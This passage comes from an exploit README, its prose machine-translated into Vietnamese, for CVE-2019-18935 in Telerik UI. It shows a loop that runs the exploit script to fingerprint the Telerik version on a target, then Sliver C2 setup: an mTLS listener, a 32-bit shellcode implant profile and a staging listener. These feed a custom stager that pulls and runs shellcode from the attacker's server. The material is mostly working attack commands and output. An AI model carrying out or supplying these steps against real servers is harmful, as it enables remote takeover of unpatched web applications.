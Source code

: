 ```powershell
$ for YEAR in $(seq 2013 2018); do
    echo -n "$YEAR: "
    python3 CVE-2019-18935.py -t -v "$YEAR" -p /dev/null -u <HOST>/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null |
    grep -oE "Telerik.Web.UI, Version=$YEAR\.[0-9\.]+" ||
    echo
done

2013:
2014:
2015:
2016:
2017: Telerik.Web.UI, Version=2017.2.503.40
2018:
```

## Implant with Sliver C2 framework

Trọng tải stager [Sliver](https://github.com/BishopFox/sliver) tùy chỉnh [`sliver-stager.c`](sliver-stager.c) nhận và thực thi Sliver shellcode (giai đoạn) từ máy chủ Sliver ( máy chủ dàn), tuân theo giao thức dàn dựng của Metasploit. Để biết thêm chi tiết về cách hoạt động của điều này, hãy đọc tiêu đề trong nguồn tải trọng.

Khởi động máy chủ Sliver. Thông tin thêm về thiết lập máy chủ [tại đây](https://github.com/BishopFox/sliver/wiki/Getting-Started).

```bash
MINGW_PATH='/usr/bin'  # Or wherever MinGW is located.
export SLIVER_CC_32="$MINGW_PATH/i686-w64-mingw32-gcc"
export SLIVER_CC_64="$MINGW_PATH/x86_64-w64-mingw32-gcc"
./sliver-server
```

Mở điểm cuối C2 (tác giả đang sử dụng trình nghe mTLS ở đây, nhưng bạn cũng có thể sử dụng HTTP hoặc DNS) trên máy chủ Sliver, tạo một cấu hình cấy ghép và tạo một bộ nghe dàn được liên kết với cấu hình đó. Thông tin thêm về tải trọng theo giai đoạn [tại đây](https://github.com/BishopFox/sliver/wiki/Stagers#example). Lưu ý rằng tác giả không tạo Sliver stager bằng cách sử dụng `create stager` như tài liệu của Sliver gợi ý, thay vào đó sử dụng [`sliver-stager.c`](sliver-stager.c) tùy chỉnh của chúng tác giả.

⚠️ Chú ý: Việc gửi một giai đoạn của kiến trúc CPU sai sẽ _crash_ quá trình đích! Ví dụ: nếu mục tiêu đang chạy phiên bản 32-bit của Telerik UI và máy chủ dàn gửi một giai đoạn 64-bit đến máy xếp 32-bit, thì quá trình máy chủ web sẽ bị lỗi. Trong ví dụ sau, sẽ tạo shellcode 32 bit — nhưng bạn phải khớp mã đó với kiến trúc CPU của mục tiêu bằng cách sử dụng cờ `--arch` của lệnh 'new-profile`.

```powershell
sliver > mtls
[*] Starting mTLS listener ...
[*] Successfully started job #1

sliver > new-profile --mtls <C2-ENDPOINT>:<PORT> --arch x86 --format shellcode --profile-name shellcode-32 --skip-symbols
[*] Saved new profile shellcode-32

sliver > stage-listener --url tcp://<STAGING-SERVER>:<PORT> --profile shellcode-32
[*] No builds found for profile shellcode-32, generating a new one
[*] Job 2 (tcp) started
```
